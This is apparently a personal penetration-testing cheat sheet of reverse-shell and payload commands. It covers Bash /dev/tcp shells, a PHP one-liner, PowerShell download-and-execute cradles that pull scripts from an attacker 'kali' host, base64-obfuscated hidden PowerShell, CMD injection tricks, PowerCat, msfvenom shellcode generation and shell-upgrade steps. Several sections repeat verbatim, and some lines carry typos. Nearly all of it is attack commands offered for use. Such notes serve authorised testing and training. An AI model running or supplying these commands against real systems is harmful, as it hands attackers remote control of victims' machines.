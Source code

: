 ```yaml
---
title: Reverse Shells
updated: 2025-05-12 01:00:37Z
created: 2025-04-18 11:39:51Z
latitude: -33.78668940
longitude: 150.95264980
altitude: 0.0000
---
```


Start a Netcat reverse shell:
`nc -nvlp <port>`

Start Web Server using python3
`python3 -m http.server <port>`

* * * 
## Bash
`bash -i >& /dev/tcp/<target>/<port> 0>&1`
`bash -c "bash -i >& /dev/tcp/<target>/<port> 0)&1"` 
**URL Encoded:**
`bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F<target>%2F<port>%200%3E%261%22`

* * *
## CMD
Inject anything (eg **calc**):
`for /f "delims=" %i in ('dir 2^>^&1 *^|echo powershell -w hidden -nop -c calc') do @%i`

Inject reverse shell (**ps1**):
`for /f "delims=" %i in ('dir 2^>^&1 *^|echo powershell -w hidden -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://kali/payload.ps1')"') do @%i`

Wrap in a one-liner for batch file (**.bat**)
```
@echo off
for /f "delims=" %%i in ('dir 2^>^&1 *^|echo calc') do %%i
```

* * *
## PowerShell
**Base64 Encode PowerShell Commands**

1. Build your PowerShell command:
`IEX(New-Object Net.WebClient).DownloadString('http://kali/shell.ps1')`
2. Convert to **Base64** (PowerShell expects UTF-16LE)
```
$cmd = "IEX(New-Object Net.WebClient).DownloadString('http://kali/shell.ps1')"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($cmd)
[Convert]::ToBase64String($bytes)
```
3. Drop it in your payload:
`Invoke-Expression "powershell -nop -w hidden -enc XXXXXXXXXXXXXXX"`
* * *

**PowerCat**
. 1. `cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 /scripts/reverse_shells/powercat.ps1`
2. Start HTTP server to host the powercat script:
`python3 -m http.server 80`
3. Start a netcat listener
`nc -nvlp <port>`
4. Execute the script:
```
IEX (New-Object System.Net.Webclient).DownloadString ("http://<kali>/powercat.ps1");
powercat -c <kali> -p <port> -e powershell
```

# Generate Reverse Shell for buffer-overflow payload
1. For access to a windows host or file system
`msfvenom -p windows/shell_reverse_tcp LHOST=<HackerIP> LPORT=666 -f python -b '\x00'`


# Upgrading Shell
If linux shell comes back with no tty escape
`python -c 'import pty; pty.spawn("/bin/bash")'`
`python3 -c 'import pty;pty.spawn("/bin/bash")'`

`CTRL-Z` to put process in backgroup
`stty raw -echo`
`fg`
`fg`
`export TERM=xterm`

# PHP Reverse Shell - 1 liner
`php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`

# TTY Escape
`python3 -c 'import pty; pty.spawn("/bin/sh")'`

(inside the nc session) 
**CTRL+Z**
**stty raw -echo**
**fg**
**ls**
**export SHELL=/bin/bash**
**export TERM=screen**
**stty rows 38 columns 116**
**reset**

# PowerShell reverse shell

```
echo 'Invoke-PowerShellTcp -Reverse -IPAddress <kali> -Port 443' >>
Invoke-PowerShellTcp.ps1
```
`python3 -m http.server 80`

On target:
```
powershell -c iex(new-object net.webclient).downloadstring('http://<kali>/Invoke-PowerShellTcp.ps1’)
```


* * * 
## Bash
`bash -i >& /dev/tcp/<target>/<port> 0>&1`
`bash -c "bash -i >& /dev/tcp/<target>/<port> 0)&1"` 
**URL Encoded:**
`bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F<target>%2F<port>%200%3E%261%22`

* * *
## CMD
Inject anything (eg **calc**):
`for /f "delims=" %i in ('dir 2^>^&1 *^|echo powershell -w hidden -nop -c calc') do @%i`

Inject reverse shell (**ps1**):
`for /f "delims=" %i in ('dir 2^>^&1 *^|echo powershell -w hidden -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://kali/payload.ps1')"') do @%i`

Wrap in a one-liner for batch file (**.bat**)
```
@echo off
for /f "delims=" %%i in ('dir 2^>^&1 *^|echo calc') do %%i
```

* * *
## PowerShell
**Base64 Encode PowerShell Commands**

1. Build your PowerShell command:
`IEX(New-Object Net.WebClient).DownloadString('http://kali/shell.ps1')`
2. Convert to **Base64** (PowerShell expects UTF-16LE)
```
$cmd = "IEX(New-Object Net.WebClient).DownloadString('http://kali/shell.ps1')"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($cmd)
[Convert]::ToBase64String($bytes)
```
3. Drop it in your payload:
`Invoke-Expression "powershell -nop -w hidden -enc XXXXXXXXXXXXXXX"`
* * *

**PowerCat**
. 1. `cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 /scripts/reverse_shells/powercat.ps1`
2. Start HTTP server to host the powercat script:
`python3 -m http.server 80`
3. Start a netcat listener
`nc -nvlp <port>`
4. Execute the script:
```
IEX (New-Object System.Net.Webclient).DownloadString ("http://<kali>/powercat.ps1");
powercat -c <kali> -p <port> -e powershell
```



